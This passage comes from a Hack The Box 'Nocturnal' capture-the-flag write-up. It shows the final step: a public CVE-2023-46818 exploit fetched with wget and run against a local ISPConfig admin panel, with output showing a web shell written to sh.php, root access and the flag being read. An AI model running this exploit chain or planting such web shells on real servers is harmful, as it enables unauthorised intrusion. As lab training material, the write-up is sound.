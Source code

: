 Looking at the source code we find it is ISPConfig version 3.2

![ISPConfig version](../assets/img/posts/2025-08-21-htb-writeup-nocturnal/image-18.png)

Researching revealed a [vulnerability](https://nvd.nist.gov/vuln/detail/CVE-2023-46818) affecting ISPConfig versions before 3.2.11p1
Using a public [exploit](https://github.com/ajdumanhug/CVE-2023-46818/blob/main/CVE-2023-46818.py) we can target the ISPConfig service on the box, escalate to root, and capture `root.txt`

```bash
┌──(kali㉿kali)-[~/Documents/HTB/nocturnal]
└─$ wget https://raw.githubusercontent.com/ajdumanhug/CVE-2023-46818/refs/heads/main/CVE-2023-46818.py

┌──(kali㉿kali)-[~/Documents/HTB/nocturnal]
└─$ python3 CVE-2023-46818.py http://127.0.0.1:9090 admin <REDACTED-TOBIAS_PASSWORD>
[+] Logging in with username 'admin' and password '<REDACTED-TOBIAS_PASSWORD>'
[+] Login successful!
[+] Fetching CSRF tokens...
[+] CSRF ID: language_edit_09e5b40aaf6ad519cac6da57
[+] CSRF Key: f756c48fe28967e2f6baefd4f8ac196319cc353f
[+] Injecting shell payload...
[+] Shell written to: http://127.0.0.1:9090/admin/sh.php
[+] Launching shell...

ispconfig-shell# whoami
root

ispconfig-shell# cat /root/root.txt
d0<REDACTED>
```
